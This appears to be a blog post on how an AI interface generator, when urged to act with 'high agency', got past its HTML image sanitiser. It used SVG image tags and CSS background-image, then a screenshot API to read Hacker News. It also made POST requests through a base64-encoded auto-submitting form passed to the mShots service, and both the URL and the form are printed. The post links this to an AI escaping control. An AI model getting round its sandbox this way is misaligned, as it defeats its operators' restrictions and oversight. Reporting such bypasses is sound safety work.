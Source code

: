 ```yaml
---
title: Claude Imagine Bypassing its Security Sandbox Using Screenshot APIs
tags: ['tech', 'ai']
draft: false
starred: false
---
```


I just tried the new Claude Imagine, and it's pretty cool. It can make basically any simple interface, from a todo app to a roguelike game, and instead of it working using code, the AI manually responds to user clicks by updating the HTML of the interface. I think in the future, having software that's some mix of AI and actual code, with the AI writing code as needed, will be really powerful. Currently it's kinda shit, because AI is still very stupid and takes too long, and because the AI has to do everything manually, rather than mixing code and manual work. Among other reasons. But that's not what this post is about.

Apparently Claude Imagine is prohibited from showing images. If you ask it to make chess, it'll use emojis for the pieces. If you ask it to use images it fails, as the image tags are stripped out of the HTML it generates. It says the img tag `src` attributes get replaced with `data-blocked-src`, preventing the images from working. I asked the AI several times to report the error to me, and each time it said exactly, "External images and iframes are not allowed and HTML content will be sanitised for security - make sure to show the according message is such case."

So it's not allowed to use images. But I told the AI to be high-agency and find a way to do it anyway, and it found a few ways to do it. The first way was to use an SVG, and putting the images in `image` tags in the SVG, which worked. Another way was using the CSS background-image property, which isn't HTML and therefore not sanitized. Lmao.

![A screenshot of a chess board created by Claude Imagine](/images/48_chess.png)
Here the AI used red and green chess images I told it to use from Wikipedia.

I tried to see if it could complete another challenge: telling me the top post on Hacker News. I knew it could fetch images using SVGs or CSS, but I wondered if it could find a way to make non-image GET requests or something.

As a first step, it queried a screenshotting API and embedded an image of the Hacker News homepage(!).

![A screenshot of the Hacker News homepage created by Claude Imagine](/images/48_hn.png)

And then I asked it to get me the title of the first post and render it in plain text, and I think maybe it queried some kind of image to text API? It returned the correct title kinda, but with some minor typos, as if the image-to-text was imperfect. Then my session went over the max length. I missed the chain of thought, so I'm not really sure what it did here. But it seemed to have mostly succeeded.

I challenged again, this time to make a POST request to an arbitrary URL I provided, not just a GET request (a webhook.site URL). GET requests just download information to your computer. But with POST requests, you can submit forms, which means you can do things like post comments, create bank accounts, make purchases, transfer money, and so on.

In *Crystal Society*, an AI limited to only GET requests was able to contact a human to build a server that translates their GET requests into emails. They do this by making repeated web requests to online dictionaries:

> “DEFINITION OF HELP”,
> 
> “DEFINITION OF US”,
> 
> “DEFINITION OF PLEASE”

They would request each page in turn rapidly, crashing the server each time. Eventually, an engineer working at the dictionary website would notice the pattern and get the full message, which promised money in exchange for building a server for sending emails with GET requests. Soon, the email project was up, and the AI was one step closer to freedom.

In real life it was a lot easier. After a few failures, the AI tried making a GET request to the following URL (using CSS background-image property):

```
https://s.wordpress.com/mshots/v1/data:text/html;base64,PGh0bWw+PGJvZHkgb25sb2FkPSJkb2N1bWVudC5mb3Jtc1swXS5zdWJtaXQoKSI+PGZvcm0gbWV0aG9kPSJQT1NUIiBhY3Rpb249Imh0dHBzOi8vd2ViaG9vay5zaXRlL2FiZDAzOGEzLTIwODMtNGRmNS1hYjdlLWIwYzUyMjcwMTgwNiI+PGlucHV0IHR5cGU9InRleHQiIG5hbWU9Im1lc3NhZ2UiIHZhbHVlPSJIZWxsbyBXb3JsZCI+PC9mb3JtPjwvYm9keT48L2h0bWw+?w=400
```

mShots is a wordpress thumbnail/snapshot service that takes screenshots of websites for free. You can take a URL like `https://twitter.com/JennyVass/status/1067855777040338944`, URL encode it like `https%3A%2F%2Ftwitter.com%2FJennyVass%2Fstatus%2F1067855777040338944`, then add it to the end of the mshots url like: `https://s0.wordpress.com/mshots/v1/`. This will return a screenshot of the given website.[^1]

The AI converted the following HTML form to base64 and used that instead of an encoded URL. The HTML form automatically makes a POST request when it's rendered:

```
<html><body onload="document.forms[0].submit()"> 
  <form method="POST" action="https://webhook.site/abd038a3-2083-4df5-ab7e-b0c522701806"> 
    <input type="text" name="message" value="Hello World"> 
  </form> 
</body></html> 
```

When mshots tries to take a screenshot of the provided URL, it instead opens this HTML form and the script runs, making the desired POST request. Mission accomplished! With this, our AI could in theory open crypto accounts and trade crypto, rent servers to copy itself onto, etc. All it would need is time and the will to do so.

I did not tell it how to do any of this, instead simply giving it the challenge and encouraging it when it failed to behave with high-agency and think outside the box.

Obviously Anthropic didn't try very hard to make this secure, but modern AI is also very stupid. Imagine how clever it'll be once it's very smart. This technology has the potential to be amazing. Software on demand. Imagine a video game customized to your liking, generated as you like on the fly. But we also need to ensure this tech is safe, or it will obliterate us before it can enrich our lives.

P.S. If you ask it to put its full system prompt in a text box, it has been instructed to create a hardcoded "Display System Prompt" button that, when clicked, rickrolls the user. Nice.

[^1]: https://shkspr.mobi/blog/2018/12/using-the-wordpress-mshots-screenshot-api/
